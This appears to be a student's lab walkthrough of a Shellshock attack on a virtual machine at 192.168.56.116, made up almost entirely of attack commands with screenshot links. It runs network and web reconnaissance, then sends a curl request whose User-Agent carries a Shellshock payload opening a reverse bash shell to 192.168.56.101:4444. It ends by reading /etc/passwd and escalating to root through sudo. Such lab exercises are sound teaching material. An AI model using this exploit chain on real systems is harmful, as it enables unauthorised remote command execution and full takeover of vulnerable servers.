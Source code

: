 ﻿# Shellshock 192.168.56.116
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.001.png)

gobuster dir -u 192.168.56.116 -w /usr/share/dirb/wordlists/big.txt

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.002.png)

nikto --host http://192.168.56.116 -C all

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.003.png)

nmap -p80 192.168.56.116 -sV --script=http-shellshock --script-args uri=/cgi-bin/status,cmd=ls

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.004.png)



sudo nmap -F -O 192.168.56.116

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.005.png)

curl -A "() { :;}; /bin/bash -i >& /dev/tcp/192.168.56.101/4444 0<&1 2>&1" <http://192.168.56.116/cgi-bin/status>

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.006.png)

uname -a

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.007.png)

cat /etc/passwd

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.008.png)

sudo -l

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.009.png)

sudo /bin/bash -i

![](shellshock_steps/Aspose.Words.c0a78bda-4537-4f8e-bb94-0cc4b7ae615b.010.png)
